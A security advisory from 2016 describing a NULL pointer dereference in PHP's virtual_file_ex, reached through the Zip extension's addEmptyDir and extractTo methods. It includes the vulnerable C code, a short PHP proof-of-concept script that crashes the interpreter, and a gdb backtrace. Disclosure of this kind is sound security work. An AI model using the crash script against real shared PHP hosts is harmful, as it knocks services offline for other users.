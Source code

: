 ```yaml
---
title: "PHP NULL pointer dereference in virtual_file_ex (v. master-Git-2016-02-09)"
date: 2016-02-09 00:00:00
preview: ""
---
```


* _Author_: Martino Sani
* _Software_: PHP
* _Version_: master-Git-2016-02-09
* _Release date_: 2016-02-09
* _CVE_: -
* _Reference_: https://bugs.php.net/bug.php?id=71561

A malicious user could create an evil php script in order to crash the PHP interpreter. The issue could compromise the availability of the PHP interpreter in the web hosting services, where the PHP interpreter could be shared among some users.

`virtual_file_ex` method in the `zend_virtual_cwd.c` file uses a `char *` argument that could be NULL. I identified this issue through `extractTo` method in the PHP Zip extension, opening a not existing ZIP archive.

`zend_virtual_cwd.c`:

```c
CWD_API int virtual_file_ex(cwd_state *state, const char *path, verify_path_func verify_path, int use_realpath)
{
    // path could be NULL
    int path_length = (int)strlen(path);
```

The issue is triggerable via `addEmptyDir` and `extractTo` Zip extension methods, if not existing zip archive will be opened.
Vulnerable code into extractTo method (`php_zip.c`) is shown below:

```c
/* Extract all files */
// zip_get_num_files returns 1 (intern->nentry is equal to 1) because, I think, addEmptyDir incremented it.
int filecount = zip_get_num_files(intern);

if (filecount == -1) {
    // ...
}

for (i = 0; i < filecount; i++) {

    // zip_get_name returns NULL
    char *file = (char*)zip_get_name(intern, i, ZIP_FL_UNCHANGED);

    // php_zip_extract_file uses virtual_file_ex
    if (!php_zip_extract_file(intern, pathto, file, strlen(file))) {
        RETURN_FALSE;
    }
}
```

# PHP build command

```
./buildconf --force
./configure --prefix=/opt/php --enable-debug --enable-zip
make && make install
```

# Test script

```
<?php

$zip = new ZipArchive();

// Open a not existing zip file
$zip->open("/dev/shm/notexisting.zip", ZIPARCHIVE::CREATE);

$zip->addEmptyDir("foo");

// Program terminated with signal SIGSEGV, Segmentation fault.
$zip->extractTo("/dev/shm/");

$zip->close();

?>
```

# Expected result

PHP interpreter should not crash.
No actions could be performed by `extractTo` method because the zip file does not physically exist, or the "in-memory" zip archive could be handled as a normal archive (if possible).

# Actual result

PHP interpreter crash with a SIGSEGV.

```
$ gdb) where
#0  strlen () at ../sysdeps/x86_64/strlen.S:106
#1  0x000000000079055a in c_ziparchive_extractTo (execute_data=0x7f3656a15120, return_value=0x7f3656a15100) at /php-src/master/src/ext/zip/php_zip.c:2671
#2  0x0000000000891c3a in ZEND_DO_FCALL_SPEC_RETVAL_UNUSED_HANDLER () at /php-src/master/src/Zend/zend_vm_execute.h:1024
#3  0x0000000000890610 in execute_ex (ex=0x7f3656a15030) at /php-src/master/src/Zend/zend_vm_execute.h:422
#4  0x0000000000890721 in zend_execute (op_array=0x7f3656a82000, return_value=0x0) at /php-src/master/src/Zend/zend_vm_execute.h:466
#5  0x00000000008362e8 in zend_execute_scripts (type=8, retval=0x0, file_count=3) at /php-src/master/src/Zend/zend.c:1427
#6  0x00000000007a76ae in php_execute_script (primary_file=0x7ffd6efe8db0) at /php-src/master/src/main/main.c:2484
#7  0x0000000000908079 in do_cli (argc=3, argv=0x18a1c40) at /php-src/master/src/sapi/cli/php_cli.c:974
#8  0x0000000000909043 in main (argc=3, argv=0x18a1c40) at /php-src/master/src/sapi/cli/php_cli.c:1345
```

# Notes

* 2016-02-09: Vendor notification.
* 2016-02-09: Vendor fixes the issue.

The author is not responsible for the misuse of the information provided in this advisory.